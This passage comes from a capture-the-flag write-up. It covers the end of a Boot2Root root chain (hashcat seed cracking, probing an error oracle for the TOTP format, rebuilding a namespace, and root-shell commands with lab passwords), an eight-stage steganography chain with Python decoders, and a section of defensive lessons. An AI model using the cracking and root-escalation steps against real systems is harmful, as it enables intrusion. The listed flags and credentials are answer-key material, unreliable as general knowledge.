- Seed `C4WSWUHX6IPRF4SZ` = `C4WSWU` (**hashcat `seedhash` mask `?1×6HX6IPRF4SZ`**, base-32 alphabet — lowercase run finds nothing, uppercase cracks in ~1s; my first mask-file invocation was silently wrong, inline mask worked) + `HX6IP` + `RF4SZ`; code = TOTP (`base32(seed)`/HMAC-SHA1/30s — the other 7 combos of ascii/hex × sha1/sha256 × 60/30s all rejected by the bench oracle `seed is right but code…`, `b32/sha1/30` accepted: `the cap stands. the keeper's shell, on this boot only`).

#### 4. USER + ROOT (live namespace, fake `uid=0(root)`, pristine binaries)
Dead ends that cost real time: my path-patched `deadlightd` 404'd every token route (route table was the bug, not the token — CRC variants of bare/`\n`/`reading=` all failed identically); lowercase seedhash mask silently found nothing. Fix (same recipe as Blackdamp/StillWater): `unshare -Urm --pid --fork --mount-proc` with tmpfs `/run`+`/etc`+`/srv`+`/opt` populated from the dump, pristine binaries, fresh per-boot nonce. Then lamp `7009` → `reading=8040` → `CRC32` → plant `8088` `200` (`firmware.bin` served fine unpatched):
```bash
# as uid 0 in the namespace (the hint, literally):
deadlight --shell   --seed C4WSWUHX6IPRF4SZ --code <fresh-b32/sha1/30> --rootpw 'Chimneystem54449&'
deadlight --relight --seed C4WSWUHX6IPRF4SZ --code <fresh> \
  --chain 'Null0rigin{the_sump_empties_on_its_own_schedule_not_yours}' \
  --rootpw 'Chimneystem54449&' --seal 'F0rdb0th0m94280#'
# sample 7d3dffe4... / e1deec12...
# Null0rigin{a_deadlight_is_a_reading_not_a_failure}
```
USER `Null0rigin{the_lamp_told_you_by_going_out}` = `/var/lib/lamp/user.txt` (lamp-gang store, `lamp` group-readable once in as apiuser; checkpoint TOCTOU → assay shell is the live route, `doas` → uid 0 for the bench).

### Three lessons (the traps that cost the most time)
1. **Live-bound seals can't be taken offline.** `/run` tmpfs (`bootid`/`nonce`/`cycle`/`sump.seed`), per-boot randomness, rolling codes (5s/30s/60s/10-min/2-min windows), and `/proc/1/root` checks mean patched-binary + stale-code runs fail with the *generic* decrypt error. Fix: `unshare -Urm --pid --fork --mount-proc` + pristine binaries + fresh codes in one window.
2. **Key encodings matter more than key values.** Tidegauge key hex-*decoded* (ASCII fails); StillWater seed used *binary* (`seal.check` proof); Deadlight TOTP key *base32-decoded* with SHA1/30s (7/8 combos rejected); seedhash mask must be *uppercase* base-32.
3. **Error strings are oracles — read the exact line.** Bench/unseal name the bad field (`seed is right but code…`, `chain key is not the key`, `fragments do not assemble`, `not for cycle N` reveals N, GDB at the 6-byte compare leaks expected codes). Never change inputs blindly; one field per attempt. And verify every OVA against `SHA256SUMS.txt` first — the `(2).7z` copy in my downloads was a corrupt partial (Headers Error) and would have poisoned everything.

---

## Part III: Steganography chain

**Chain topology:** `31-driftwood → 32-safelight → 33-moire → 34-undertone → 35-pentimento → 36-winnow → 37-mordant → 38-quietus`.




The theme is printmaking and media encoding, but the hiding techniques move steadily from pixel bits to codec-level decisions. Every candidate should be checked against its `PL8` header and CRC32; stages 31–36 also yield eight-byte shares for Stage 37. The exact case-sensitive `Null0rigin{...}` value from stage *N* keys stage *N + 1*.

### Shared PL8 record format

`31-driftwood/plate-card.txt` describes the record format:

```text
offset  size  meaning
0       3     ASCII "PL8"
3       1     issue/version
4       2     payload length, little-endian
6       4     CRC32(payload), little-endian
10      N     payload
```

So a candidate extraction is accepted only if:

```python
buf[:3] == b"PL8"
N = int.from_bytes(buf[4:6], "little")
want_crc = int.from_bytes(buf[6:10], "little")
payload = buf[10:10+N]
zlib.crc32(payload) & 0xffffffff == want_crc
```

For stages 31–36 the payload is:

```text
flag || 0x1f || 8-byte-share
```

Those six 8-byte shares are required by stage 37.

The shares recovered are:

```text
31  9e4c1af0d3b27651
32  2a77be05c4198d3f
33  f10983dd6b5ec4a2
34  55c2e79140ab3d08
35  bd3f60a8e2749c15
36  07e5cb3219d6f48b
```

---

### Shared key schedule

Starting from stage 32, the previous stage's exact flag is the key material.

```python
k = SHA256(previous_flag.encode())
```

For a byte stream:

```python
stream = SHA256(k || 0x00000000)
       || SHA256(k || 0x00000001)
       || SHA256(k || 0x00000002)
       || ...
```

The counter is a 4-byte **big-endian** integer. Ciphertext bytes are XORed against that stream.

This is important: copy the previous flag exactly, including `Null0rigin{...}` and braces, with no newline.

#### Python reference helpers (record check and XOR stream)

These functions implement the shared data format and the card cipher as described above. They are **reusable primitives**, not a complete image/audio/GIF/DEFLATE extractor; each stage has a different way to recover ciphertext bytes.

```python
from hashlib import sha256
import zlib


def bits_to_bytes(bits):
    """Pack an iterable of 0/1 bits, MSB first. Ignore any trailing <8 bits."""
    bits = list(bits)
    return bytes(
        sum((bits[i + j] & 1) << (7 - j) for j in range(8))
        for i in range(0, len(bits) - 7, 8)
    )


def card_stream(key: bytes, length: int) -> bytes:
    """SHA256(key || counter_be32), for counters 0, 1, ..."""
    return b"".join(
        sha256(key + i.to_bytes(4, "big")).digest()
        for i in range((length + 31) // 32)
    )[:length]


def xor_bytes(a: bytes, b: bytes) -> bytes:
    if len(a) != len(b):
        raise ValueError("Both streams must be equally long")
    return bytes(x ^ y for x, y in zip(a, b))


def decrypt_from_previous_flag(ciphertext: bytes, previous_flag: str) -> bytes:
    key = sha256(previous_flag.encode("utf-8")).digest()
    return xor_bytes(ciphertext, card_stream(key, len(ciphertext)))


def read_pl8(data: bytes):
    """Return version, payload if PL8 record is complete and CRC32 matches."""
    if len(data) < 10 or data[:3] != b"PL8":
        raise ValueError("No PL8 magic")
    version = data[3]
    n = int.from_bytes(data[4:6], "little")
    expected = int.from_bytes(data[6:10], "little")
    if len(data) < 10 + n:
        raise ValueError("Truncated PL8 record")
    payload = data[10:10+n]
    if zlib.crc32(payload) & 0xffffffff != expected:
        raise ValueError("PL8 CRC32 mismatch")
    return version, payload


# For stages 31-36 only: payload = flag_bytes + b'\x1f' + 8-byte share
# version, payload = read_pl8(decrypted_bytes)
# flag_bytes, share = payload.rsplit(b'\x1f', 1)
# assert len(share) == 8
# print(flag_bytes.decode(), share.hex())
```

For Stage 37, apply `card_stream(sha256(flag36.encode()).digest(), n)` and then `card_stream(sha256(share31 + ... + share36).digest(), n)` as documented below. Stage 38 requires a **token-preserving** DEFLATE parser rather than a plain `zlib.decompress()` call.

---

### Stage 31 — Driftwood

Files:

```text
31-driftwood/driftwood.png
31-driftwood/plate-card.txt
```

The PNG metadata contains a tempting fake flag:

```text
NullOrigin{the_tide_returns_what_it_took}
```

The plate card explicitly warns that "handwriting" is untrusted. We therefore search image bit-planes for something that produces a valid `PL8` record.

The real carrier is the **alpha-channel LSB of the first image column**, top to bottom.

```python
im = Image.open("driftwood.png").convert("RGBA")
bits = [(im.getpixel((0, y))[3] & 1) for y in range(im.height)]
```

Pack each group of 8 bits MSB-first. The data starts immediately with:

```text
50 4c 38 01 ...
 P  L  8
```

The CRC validates, yielding:

```text
Null0rigin{what_the_negative_kept_from_the_print}
```

and share:

```text
9e4c1af0d3b27651
```

---

### Stage 32 — Safelight

Files:

```text
32-safelight/negative.png
32-safelight/print.png
32-safelight/keycard.txt
```

A photographic negative and print should approximately complement each other to 255. Compute:

```python
r = negative + print - 255
```

Most pixels are exactly zero. The deliberate signal consists of pixels where `r` is exactly `-1` or `+1`.

Interpret, in normal row-major order:

```text
-1 -> 0
+1 -> 1
```

Ignore other residuals.

Pack MSB-first. This produces 560 bits = 70 encrypted bytes.

Now derive the key from stage 31:

```python
k = SHA256(b"Null0rigin{what_the_negative_kept_from_the_print}")
```

XOR with the standard card stream. The plaintext passes PL8 + CRC32:

```text
Null0rigin{two_cells_of_equal_weight_are_not_equal}
```

share:

```text
2a77be05c4198d3f
```

---

### Stage 33 — Moiré

Files:

```text
33-moire/moire.png
33-moire/screen-notes.txt
```

The metadata flag about a 15-degree screen is a decoy.

The process note says:

- screen is **4×4 pixels per cell**;
- cell "weight" = number of black dots;
- weight must not change;
- middle weights have **two legal patterns with the same weight**;
- read cells in ox-plough / serpentine order.

Split the 1024×768 image into 4×4 cells. For each cell record:

```python
weight = number_of_black_pixels
pattern = 16-bit bitmap of the 4x4 cell
```

The observed pattern counts are:

```text
weight 4   -> 1 pattern
weight 5   -> 2 patterns
weight 6   -> 2 patterns
weight 7   -> 2 patterns
weight 8   -> 2 patterns
weight 9   -> 2 patterns
weight 10  -> 2 patterns
weight 11  -> 2 patterns
weight 12+ -> 1 pattern each
```

Therefore only weights **5..11** carry information.

Read cell rows serpentine:

```text
row 0: left -> right
row 1: right -> left
row 2: left -> right
...
```

For each weight there are only two patterns, so there is a 0/1 orientation ambiguity. Seven weights means only:

```text
2^7 = 128
```

possible mappings. Brute-force those 128 mappings, XOR each candidate byte stream using the stage-32 key schedule, and accept the one that produces a valid PL8 CRC.

The winning flips (if the two patterns are first sorted numerically and indexed 0/1) are:

```text
{5:1, 6:0, 7:0, 8:1, 9:1, 10:0, 11:0}
```

The valid entry is:

```text
Null0rigin{a_carrier_laid_across_the_whole_room}
```

share:

```text
f10983dd6b5ec4a2
```

---

### Stage 34 — Undertone

Files:

```text
34-undertone/linetest.wav
34-undertone/undertone.wav
34-undertone/line-notes.txt
```

The right channel is a distraction. The payload is spread across the **left channel** as a direct-sequence spread-spectrum signal.

The challenge gives a known-plaintext calibration sample:

```text
LINETEST key text: "LINE TEST"
expected body:     "NULL0RIGIN LINE TEST 1 OF 1"
```

Use the standard card rule with `"LINE TEST"` in place of a previous flag:

```python
k_test = SHA256(b"LINE TEST")
```

Generate enough card-stream bytes, unpack their bits MSB-first, and convert to a ±1 chip sequence:

```text
stream bit 0 -> -1
stream bit 1 -> +1
```

For the left PCM samples, the correct symbol size is exactly:

```text
2048 samples / message bit
```

For every 2048-sample block compute a correlation:

```python
score = sum(left_sample[i] * carrier_chip[i])
bit = 1 if score > 0 else 0
```

Packing those bits MSB-first makes LINETEST decode to a valid PL8 entry containing exactly the documented test string. That proves the parameters.

Repeat on `undertone.wav`, using the stage-33 flag as key material.

Result:

```text
Null0rigin{the_order_of_the_colours_is_the_message}
```

share:

```text
55c2e79140ab3d08
```

---

### Stage 35 — Pentimento

Files:

```text
35-pentimento/pentimento.gif
35-pentimento/dish-notes.txt
```

The 11 displayed animation frames are not the secret. The secret is in the **original local GIF palettes**.

Do not re-save the GIF. A normal image library may normalize palette order and destroy the carrier.

Each of the 11 image frames contains a **local 256-color table**. For each frame:

1. Parse the local palette directly from the GIF bytes.
2. Compute the canonical order described in the note:

```python
sorted_palette = sorted(palette, key=lambda rgb: (
    rgb[0] + rgb[1] + rgb[2],
    rgb[0], rgb[1], rgb[2]
))
```

3. Group canonical colors into adjacent pairs `(0,1), (2,3), ...`.
4. In the actual local table each pair is either:

```text
canonical order -> 0
swapped order   -> 1
```

There are 128 bits per frame × 11 frames = 1408 carrier bits.

Concatenate frame order, pack MSB-first, then XOR the standard card stream keyed by stage 34.

Result:

```text
Null0rigin{keep_the_grain_and_burn_the_chaff}
```

share:

```text
bd3f60a8e2749c15
```

---

### Stage 36 — Winnow

Files:

```text
36-winnow/sheet.png
36-winnow/contact-sheet.txt
```

The sheet is 2048×1024 and contains:

```text
64 frames across × 32 frames down = 2048 frames
```

so every frame is exactly 32×32 pixels.

Frames are paired:

```text
(0,1), (2,3), ...
```

The two frames in a pair contain opposite candidate bits. Only one has a valid seal.

For each 32×32 frame, take the LSB of its first 17 pixels in row-major order:

```text
first bit      = candidate message bit
next 16 bits   = stored seal, MSB-first
```

Let:

```python
k = SHA256(previous_flag)
```

For frame number `n` and candidate `bit` calculate:

```python
expected = SHA256(
    k
    + n.to_bytes(2, "big")
    + bytes([bit])
)[:2]
```

Exactly one frame in each useful pair has `stored_seal == expected`.

Choose that bit and discard its partner.

In this instance the first **496 pairs** authenticate. 496 bits = 62 bytes, exactly the complete encrypted PL8 entry. Later pairs are pure chaff.

Pack the selected bits MSB-first and XOR the ordinary stage-35 card stream.

Result:

```text
Null0rigin{nothing_takes_until_it_is_fixed}
```

share:

```text
07e5cb3219d6f48b
```

---

### Stage 37 — Mordant

Files:

```text
37-mordant/mordant.png
37-mordant/mordant-notes.txt
```

The rendered page is irrelevant. The carrier is in the PNG **scanline filter choice**.

PNG stores each decompressed scanline as:

```text
filter_byte || scanline_data
```

There are five standard filter values: 0,1,2,3,4.

The note says four ways carry values and the fifth says the same as the first. The correct mapping is:

```text
filter 0 -> 00
filter 1 -> 01
filter 2 -> 10
filter 3 -> 11
filter 4 -> 00
```

So:

```python
symbol = 0 if filter_type == 4 else filter_type
```

Read the 1900 rows in normal top-to-bottom order. Each row gives 2 bits. Pack MSB-first.

There are **two encryption layers**.

#### Layer 1 — normal previous-stage key

```python
k36 = SHA256(flag36.encode())
layer1 = carrier XOR card_stream(k36)
```

#### Layer 2 — six Mordant shares

Concatenate the six 8-byte shares in stage order:

```python
mordant_key = SHA256(
    share31 + share32 + share33 + share34 + share35 + share36
)
```

Then:

```python
plain = layer1 XOR card_stream(mordant_key)
```

The note mentions a seventh share as bait. Do **not** include it.

PL8 CRC validates:

```text
Null0rigin{he_set_two_sorts_where_one_would_do}
```

---

### Stage 38 — Quietus

Files:

```text
38-quietus/quietus.png
38-quietus/press-notes.txt
```

This is the most interesting stage. The decoded PNG pixels are not the carrier. The message is in the **original DEFLATE encoding decisions** inside the concatenated `IDAT` zlib stream.

If the file is decompressed and recompressed, the channel is destroyed.

The note maps typographic choices onto LZ77 choices:

```text
"three characters make a ligature" -> match length is exactly 3
"reached back"                      -> emit DEFLATE backreference
"set it fresh"                      -> emit literal
"nearest one"                       -> use nearest possible distance
```

The supplied stream uses a fixed-Huffman DEFLATE block and its backreferences are all length 3.

Write a small RFC1951 token parser that preserves whether each output byte sequence came from:

```text
literal token
or
(length, distance) match token
```

While walking the token stream, at each token start position `p`:

1. Determine whether the next 3 decompressed bytes **could** be emitted as a legal LZ77 match within the previous 32768-byte window.
2. Find the **nearest** valid distance.
3. If no 3-byte match exists, this position carries no bit.
4. If a choice exists:

```text
actual nearest length-3 match -> 1
literal token                 -> 0
```

DEFLATE permits overlapping matches, so distance 1 and distance 2 need to be handled correctly. Example: three repeated bytes may legally use a distance-1 match.

For every actual match in the challenge file, the stored distance agrees with the calculated nearest distance.

The file contains:

```text
38,423 eligible literal-vs-match choices
```

Pack the resulting bits MSB-first and XOR the normal card stream keyed with stage 37.

The first valid PL8 entry gives:

```text
Null0rigin{the_channel_closes_from_the_inside}
```

That completes the chain.

---

### Deliberate false flags and decoys

Examples of deliberate false flags found in carrier metadata include:

```text
NullOrigin{the_tide_returns_what_it_took}
Null0rigin{developed_under_a_red_lamp}
Null0rigin{the_screen_was_turned_fifteen_degrees}
Null0rigin{eleven_frames_and_none_of_them_true}
Null0rigin{the_sheet_was_never_contact_printed}
Null0rigin{alum_and_cream_of_tartar}
Null0rigin{the_compositor_went_home_at_six}
```

They fail the intended chain logic. The reliable acceptance test is always the `PL8` stamp + valid CRC32 after applying the correct carrier and key.

---

### Running the separately referenced solver (if available)

Dependencies:

```bash
python3 -m pip install pillow numpy
```

Example from WSL **when the named archive and `solve_stego_chain.py` are available**:

```bash
cd /mnt/c/Users/m/Downloads
7z x NullOrigin_Stego_Chain.7z -ostego_chain
python3 solve_stego_chain.py stego_chain/NullOrigin_Stego_Chain
```

According to the source writeup, the separately referenced solver:

- verifies the binary carrier SHA-256 values;
- validates every recovered PL8 CRC;
- automatically brute-forces the 128 Moiré cell-orientation possibilities;
- calibrates Undertone against LINETEST;
- parses raw GIF local palettes;
- validates Winnow frame seals;
- preserves PNG filter bytes for Mordant;
- implements a minimal RFC1951 parser for Quietus.

The source reports the following expected final output:

```text
37-mordant: Null0rigin{he_set_two_sorts_where_one_would_do}
38-quietus: Null0rigin{the_channel_closes_from_the_inside}
```

---

## Cross-challenge findings and defensive lessons

| Pattern | Examples in this event | Reliable observation / transferable lesson |
|:--|:--|:--|
| **Decoy strings instead of valid flags** | Boot2Root backup paths and metadata; Stego image metadata | Require challenge-specific proof: a passing checksum, the correct unseal result, an authenticated frame seal, or successful live response. |
| **Authority granted from attacker-controlled state** | BlackBox Graph `/prefs`; Broken Crown `/sign` | Treat client-controlled state as data, not authorization policy. Restrict schemas and authorization scopes. |
| **Encoding-sensitive crypto** | Stego previous-flag SHA-256; StillWater binary seed; Deadlight Base32 TOTP | Record exactly whether the key is a string, hex bytes, Base32 bytes, or a concatenation, plus endian/counter conventions. |
| **Live-bound checks and rolling windows** | Blackdamp boot tag; StillWater sump code; Deadlight nonce/TOTP | Disk copies alone are insufficient when `/run`, `/proc`, or clock-based values are part of the computation. Recreate the environment only in authorized isolated labs. |
| **Information carried in representation, not rendered content** | Pentimento palettes; Mordant PNG filters; Quietus DEFLATE tokens | Normalizing, resaving, or recompressing a file can remove the channel. Preserve raw bytes and parse the original format. |
| **Error strings as diagnostics** | `not for cycle`, `seed is right but code`, wrong fragment order | Change one input at a time and use the precise failure stage to localize a mistake. |

### Why the exploit chains work

**BlackBox Graph:** The writeup reports an input-validation and authorization boundary failure: the preferences handler retained hidden privilege toggles and the now-available GraphQL node resolver was able to request a loopback endpoint. The impact in this CTF was leakage of the flag through the resolver's `value` field.

**Broken Crown:** The weakness was a signing oracle: caller-provided `root`/`admin` claims were signed by the trusted service key and accepted downstream. Breaking RSA was unnecessary; **claim issuance** was the authorization failure.

**Boot2Root:** Credential formats leaked enough structure for tiny, targeted cracking spaces (often 6,000 candidates), while VM internals exposed service configuration, stored secrets, and authorization primitives. Several root stages additionally relied on boot-time state, rolling tokens, and chain dependency — an offline disk image was evidence but not a complete runtime.

**Stego:** These are eight different carriers with a shared cryptographic acceptance check. Equal-weight 4×4 cells, swapped palette pairs, authenticated frame choices, scanline filter selections, and literal-vs-LZ77 choices highlight how a file can preserve the **same displayed content** while transmitting different raw-bit messages.

---

## Reproduction checklist and limitations

### Before calling a flag verified

- [ ] Obtain the challenge description and **unaltered** artifact (or a recorded service transcript).
- [ ] Record the file hash / endpoint, working directory, tool versions, and relevant command arguments.
- [ ] State the exact initial clue and why it led to the selected attack surface.
- [ ] Include the exploit, decoder, or extraction steps — and indicate if snippets are schematic.
- [ ] Preserve stdout/stderr, service reply, checksum or acceptance result, and the final flag **exactly**.
- [ ] Where the file has a decoy flag, show **why the decoy fails** rather than assuming the first matching string is genuine.
- [ ] For a chain, state which **prior result** is consumed by the next stage and the required encoding/order.
- [ ] Describe a meaningful failed hypothesis or debugging pitfall and how it was eliminated.
- [ ] Add a root-cause explanation and a concise defensive lesson when applicable.
- [ ] Clearly label any value that has **not** been accepted or independently reproduced.

### Known gaps in the submitted material

1. **Sanity - 2:** The exact prompt, evidence artifact, and accepted challenge response were missing. The historical CyberHX flag body is a lead, **not a verified answer**.
2. **Sanity - 3:** The source contains specific commit timestamps and fragments, but no commit hashes, permanent commit URLs, or accepted-submission screenshot. The flag is therefore a **source-reported reconstruction**; the review clue did not itself expose it in the reported investigation.
3. **Boot2Root:** The diary preserves precise observed values and methods, but does not include the original OVAs, full shell session logs, patched binaries, or complete namespace setup scripts. Some commands use `...`, relative paths, and environment-specific requirements; they are not all standalone reproduce-and-run exploits.
4. **Stego:** The source documents CRC validation, the six shares, and the methods for all eight stages. However, the original media assets, per-file hashes, CRC output logs, and the separately referenced end-to-end solver were not uploaded alongside these three Markdown files. The embedded Python helpers are **not** a replacement for that full solver.
5. **Availability:** Web endpoints, platform-hosted CTF challenge sites, and `nc` servers are historical references. No live-availability claim is made.
